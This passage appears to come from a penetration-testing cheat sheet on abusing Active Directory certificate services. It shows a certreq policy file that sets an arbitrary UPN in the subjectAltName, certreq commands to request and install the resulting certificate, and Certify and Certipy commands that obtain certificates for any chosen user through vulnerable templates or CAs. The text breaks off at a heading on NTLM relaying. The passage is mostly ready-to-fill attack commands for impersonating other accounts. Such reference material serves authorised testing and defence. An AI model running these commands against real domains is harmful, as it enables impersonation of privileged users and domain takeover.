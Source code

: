 ```
[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=WHATEVER"  ; The Subject will not be taken into account for authentication.
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0xA0
MachineKeySet = FALSE ; TRUE if the certificate should be deployed in the machine store.
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
RequestType = PKCS10

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=<USERNAME | UPN>"

[RequestAttributes]
SAN="upn=<USERNAME | UPN>"
CertificateTemplate = <CERTIFICATE_TEMPLATE>
```

Then the `certreq` utility can be used to request a certificate based on the
policy and install locally the retrieved certificate:

```bash
# Create a new request (PKCS #10 format) based on the policy.
certreq -new <POLICY_FILE> request.pem

# Submits the certificate request.
certreq -submit request.pem cert.cer

# Links the previously generated private key with the issued certificate and install the certificate in the local system (either user or machine store).
certreq -accept cert.cer
```

Alternatively, both `Certify` and `Certipy` support specifying an arbitrary
`subjectAltName` for either vulnerable `certificate template`
(`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`) or vulnerable `CA`
(`EDITF_ATTRIBUTESUBJECTALTNAME2`).

```bash
Certify.exe request [/install] [/machine] /ca:<DOMAIN_FQDN>\<CA> /template:<CERTIFICATE_TEMPLATE> /altname:<USERNAME | UPN>

# certipy also supports Kerberos authentication and using a NTLM hash, refer to the "Standard certificates requests" section above.
certipy [-dc-ip <DC_IP>] '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_HOSTNAME | DC_IP>' req -template '<CERTIFICATE_TEMPLATE>' -ca '<CA_NAME>' -alt <USERNAME | UPN>
```

###### [Privilege escalation] Certificate request through NTLM relaying
